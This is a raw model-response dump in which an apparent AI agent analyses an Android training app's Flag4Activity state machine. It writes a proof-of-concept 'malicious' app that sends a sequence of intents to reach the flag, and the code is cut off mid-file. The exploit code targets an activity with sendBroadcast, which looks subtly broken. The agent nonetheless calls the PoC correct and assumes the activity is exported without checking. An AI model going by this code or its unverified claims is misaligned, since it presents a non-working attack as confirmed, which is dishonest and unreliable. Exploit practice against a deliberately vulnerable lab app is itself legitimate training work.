 GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text="🧠 Analytical Reasoning:\n*   Analyst's Notebook: The `Flag4Activity` class contains a state machine implemented in the `stateMachine` method, which is called in `onCreate` with the intent that started the activity. The state is stored and retrieved using `SolvedPreferences`. The `success(this)` method, which likely reveals the flag, is called when the current state is `GET_FLAG` and *any* intent is received (the `i == 4` case in the switch statement). The state transitions are triggered by specific intent actions: `INIT` -> `PREPARE` on `PREPARE_ACTION`, `PREPARE` -> `BUILD` on `BUILD_ACTION`, `BUILD` -> `GET_FLAG` on `GET_FLAG_ACTION`. There's also a `REVERT` state and an `INIT_ACTION` to transition from `REVERT` to `INIT`. The initial state is `INIT`.\n*   1. Code Comprehension: This Java code defines `Flag4Activity`, which manages a state machine based on incoming intents. It stores its state persistently using `SolvedPreferences`. The goal is to reach the `GET_FLAG` state and then trigger the `success` method.\n*   2. Threat Modeling (Sources & Sinks):\n    *   Sources: The incoming `Intent` in the `onCreate` method is the source of untrusted data (specifically, the intent's action).\n    *   Sinks: The `stateMachine` method processes the intent action and updates the state using `setCurrentState` (which writes to `SolvedPreferences`). The `success(this)` method is the ultimate sink, revealing the flag.\n*   3. Data Flow Tracing: The `Intent` received in `onCreate` is passed to `stateMachine`. The `intent.getAction()` is read and used in a series of `equals()` checks to determine the next state. The new state is then written to `SolvedPreferences` via `setCurrentState`. If the state is `GET_FLAG` and any intent is received, `success(this)` is called.\n*   4. Security Control Analysis: The activity processes intents received in `onCreate`. If the activity is exported (which is likely, given the PoC's use of `sendBroadcast` targeting it), any application can send intents to it. There are no checks on the origin or permissions of the sending application before processing the intent action in the state machine. The state is persisted, meaning the state machine's progress can be controlled across multiple intents from an external source.\n*   5. Vulnerability Hypothesis: I confirm my previous hypothesis: `Flag4Activity` is vulnerable to an intent-based state machine bypass. An external application can send a sequence of broadcast intents with the actions `PREPARE_ACTION`, `BUILD_ACTION`, and `GET_FLAG_ACTION` to transition the internal state to `GET_FLAG`. A subsequent intent (any intent) will then trigger the `success(this)` method, revealing the flag. The provided `MaliciousFlag4PoC.java` implements this exact sequence.\n\nThe provided `MaliciousFlag4PoC.java` seems correct based on the analysis of `Flag4Activity.java`. It sends the required sequence of intents and a final trigger. I will use this provided PoC code.\n\nPlan & Sandbox Check: I will write the content of `Android-2/MaliciousFlag4PoC.java` to a new file named `MaliciousFlag4PoC.java` in the current directory (or `/tmp` if the current directory is not writable) and the content of `Android-2/AndroidManifest_PoC.xml` to `AndroidManifest_PoC.xml`. This is necessary to have the PoC files in the expected location for potential compilation or packaging steps, although I cannot compile or run them in this environment. Writing files is generally safe, and I will attempt to write to the project root first."), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\nimport android.widget.Toast;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC started.");\n\n        // Step 1: Send PREPARE_ACTION\n        Intent prepareIntent = new Intent(PREPARE_ACTION);\n        prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(prepareIntent); // Using sendBroadcast as it\'s a common way to send intents to exported components\n        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION");\n\n        // Step 2: Send BUILD_ACTION\n        Intent buildIntent = new Intent(BUILD_ACTION);\n        buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(buildIntent);\n        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION");\n\n        // Step 3: Send GET_FLAG_ACTION\n        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);\n        getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(getFlagIntent);\n        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION");\n\n        // Step 4: Send a final intent to trigger success(this) from GET_FLAG state\n        // Any intent will work here, let\'s re-send